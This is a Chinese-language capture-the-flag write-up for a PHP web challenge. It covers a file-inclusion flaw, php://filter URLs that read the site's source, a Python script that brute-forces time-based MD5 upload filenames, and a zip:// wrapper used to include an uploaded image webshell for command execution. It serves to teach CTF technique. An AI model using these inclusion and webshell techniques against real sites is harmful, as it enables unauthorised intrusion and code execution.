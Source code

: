 >     http://101.71.29.5:10007/index.php?page=login  
  
仔细观察这个url的话会发现，存在文件包含。  

而且并没有login.php而是login，猜测代码是  
><?php include **str**."php";  


随便账号密码就能登陆，来到了一个上传页面，只能上传图片，回头看看题目  
  
这里的思路明确了，文件包含加图片马。  

>     在这时间统一的世界里，上传图片试试吧

突然发现，并不知道图片去哪里了。  

用为协议读取源代码，  

>     http://101.71.29.5:10007/index.php?page=php://filter/read=convert.base64-encode/resource=login
>     http://101.71.29.5:10007/index.php?page=php://filter/read=convert.base64-encode/resource=upload   
>     
  
  




**注意，因为包含文件的时候自动拼接.php，所以这里只写login和upload**  
     
![](https://i.imgur.com/k76GdPb.png)


在upload这里我们发现代码实现的功能。  


>     分割文件名和文件后缀，然后文件名保存为MD5(当前时间+文件名)+文件后缀，上传到upload目录下边。  

这个文件名其实是可以预测的，只不过我们得稍微的爆破一下他前后左右很短的一段时间，访问他是否存在来判断时间是否正确。  

制作一个图片马，上传后立即运行脚本。    


<pre><code>import time
import hashlib
import requests
def md5(str):
    m=hashlib.md5()
    m.update(str)
    return m.hexdigest()
t=int(time.time())
for i in range(t+8*3600-20,t+8*3600+60):#时差查了八个小时
    url="http://101.71.29.5:10007/"+"uploads/"+md5("sky"+str(i))+".jpg"
    res=requests.get(url)

    if res.status_code==200:
        print(url+'')
</code></pre> 
  


直接包含这个图片，发现不行，因为读upload.php源码的时候会发现拼接了.php，相当于你包含了shell.jpg.php，这是一个不存在的文件。  

为了绕过拼接，我们可以用phar和zip为协议。    

  



![](https://i.imgur.com/GX7cfkG.png)  

本来最后必须要打你完整的木马的名字:name.php，但是php是自动拼接的，所以就之打name。  

这样就可以让绕过.php的自动拼接了。。。  

http://101.71.29.5:10043/index.php?page=zip://uploads/图片.jpg%23shell密码，然后命令执行就可以了